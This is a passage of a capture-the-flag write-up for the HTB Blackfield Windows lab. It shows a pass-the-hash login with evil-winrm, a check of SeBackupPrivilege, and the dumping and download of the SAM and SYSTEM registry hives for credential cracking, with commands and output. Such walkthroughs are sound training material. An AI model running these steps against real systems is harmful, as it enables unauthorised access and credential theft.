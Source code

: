 If we look for `svc_backup` on our BloodHound, we can see this user is a part of `Remote Management` and `Backup Operators` group. This means we can connect to this user using **evil-winrm**. Obtained the user flag.

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/blackfield-windows/files]
└─$ evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_backup\Documents>
```

#### Shell as system
###### Shell enumeration
Remember that this user is a member of the `Backup Operators` group, which must mean that this user has `SeBackupPrivilege`. Let's quickly verify it.

```
*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\svc_backup\Documents>
```

Since we have `SeBackupPrivilege`, we can use the privilege escalation technique specified on [this post](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/). Basically we have full read access to the system, allowing us to read sensitive files like the SAM file and SYSTEM registry file, which contains the credentials of highly privileged users that we can crack.

###### Exploiting SeBackupPrivilege
We can use **reg save** to copy the registry files *sam* and *system*, then download them using the download functionality of **evil-winrm**. Note that downloading the *system* takes a while.

```
*Evil-WinRM* PS C:\Users\svc_backup\Documents> reg save hklm\sam c:\sam.reg
The operation completed successfully.

*Evil-WinRM* PS C:\Users\svc_backup\Documents> reg save hklm\system c:\system.reg
The operation completed successfully.

*Evil-WinRM* PS C:\Users\svc_backup\Documents> download c:\sam.reg

Info: Downloading c:\sam.reg to sam.reg

Info: Download successful!
*Evil-WinRM* PS C:\Users\svc_backup\Documents> download c:\system.reg

Info: Downloading c:\system.reg to system.reg
```
